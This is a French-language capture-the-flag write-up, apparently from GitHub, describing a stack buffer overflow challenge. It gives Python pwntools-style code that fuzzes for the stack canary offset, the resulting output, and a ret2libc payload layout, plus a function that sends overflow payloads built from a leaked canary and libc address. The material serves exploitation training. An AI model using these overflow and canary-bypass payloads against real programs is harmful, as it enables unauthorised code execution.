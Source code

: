 

Essayer maintenant de trouver ou se place le **canary** sur le buffer de la 2nd entrée :

```python
def Fuzz_overflow():
	offset = -1
	for _ in range(100):
		proc = Get_proc()
		proc.recvuntil(b'what did you see?:')
		proc.sendline(b'A')
		proc.recvline()
		proc.sendline(b'A'*_*8)
		resp = proc.recvall(timeout = 0.2).decode().strip().replace('\n',' | ')
		print(_,' | ',resp)
		if("stack smashing detected" in resp):
			offset = _
	return offset
```

```bash
35  |  a A ?nice one | please, give me a feedback:  | thanks, see you later
36  |  a A ?nice one | please, give me a feedback:  | thanks, see you later
37  |  a A ?nice one | please, give me a feedback:  | thanks, see you later
38  |  a A ?nice one | please, give me a feedback:  | thanks, see you later
39  |  a A ?nice one | please, give me a feedback:  | thanks, see you later
40  |  a A ?nice one | please, give me a feedback:  | thanks, see you later | *** stack smashing detected ***: terminated
41  |  a A ?nice one | please, give me a feedback:  | thanks, see you later | *** stack smashing detected ***: terminated
42  |  a A ?nice one | please, give me a feedback:  | thanks, see you later | *** stack smashing detected ***: terminated
43  |  a A ?nice one | please, give me a feedback:  | thanks, see you later | *** stack smashing detected ***: terminated
```

On sait donc que la buffer est de taille ``39`` et que le canary se place juste après à la position ``40``

###### L'attaque Ret2Libc

Nôtre idée était de trouver la libc utiliser et de faire Leak une fonction telle que **puts** ou **printf**

Pour se faire , voici le pattern que nous avons utilisé pour chercher les adresses du programmes :

- _[_ Padding du buffer de 39char _]_ + _[_ Canary _]_ +_[_ BBBBBBBB _]_(=rbp) +  _[_ Addresse _]_

Ainsi de cette manière , nous avons exécuté des attaques **Ret2Win** à la recherche de printf
Malhereusement , **nous n'avons pas trouvé ces fonctions dans le binaire** . Il y a une raison trés simple ...
Nous n'étions pas dans le binaire mais **dans la libc .**

Pourtant une chose nous à servis pour la suite :

```python
def Leak_puts():
    for x in range(-1000,1000):
        proc = Get_proc()
        canary,libc_start_main_ret = Leak_addr([49,51],proc)
        proc.recvline()
        payload  = b'A'*39*8
        payload += p64(int(canary,16))
        payload += p64(int(libc_start_main_ret,16))
        payload += p64(int(libc_start_main_ret,16)+ x)

        proc.sendline(payload)
        response = proc.recvall(timeout = 0.5).strip()
        print(x,' | ',response)

```